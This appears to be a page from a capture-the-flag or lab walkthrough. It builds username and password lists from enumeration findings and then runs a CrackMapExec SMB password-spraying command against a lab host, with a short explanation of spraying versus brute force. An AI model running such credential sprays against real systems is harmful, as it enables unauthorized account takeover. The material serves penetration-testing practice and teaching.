 ### Building Our Credential List

**Strategy**: Before attempting to gain access, compile all discovered information into organized lists for systematic testing.

### Step 4.1: Creating Target Lists

```bash
# Create comprehensive user list from enumeration
┌──(kali㉿kali)-[~]
└─$ cat > users.txt << EOF
Administrator
admin
overclock
backup
service
test
debugger
sqlservice
svc_print
FLAG{M******8}
EOF

# Create password list from various sources
┌──(kali㉿kali)-[~]
└─$ cat > passwords.txt << EOF
Password123!
Administrator2025!
Backupaccount123!
ServiceAccount123!
TestAccount123!
Debugger2025!
SQLservice2019
PrintService123
password
admin
Welcome1
EOF
```

**Why These Passwords?**: 
- `Password123!`: Found in HTML comment
- `Administrator2025!`: Common pattern (role + year + special)
- Others: Common service account patterns

### Step 4.2: Password Spraying Attack

#### Understanding Password Spraying vs Brute Force

**Password Spraying**: Try many usernames with few passwords (avoids lockouts)  
**Brute Force**: Try many passwords against one username (triggers lockouts)

```bash
# SMB Password Spraying with CrackMapExec
┌──(kali㉿kali)-[~]
└─$ crackmapexec smb 192.168.148.101 -u users.txt -p passwords.txt --continue-on-success
```
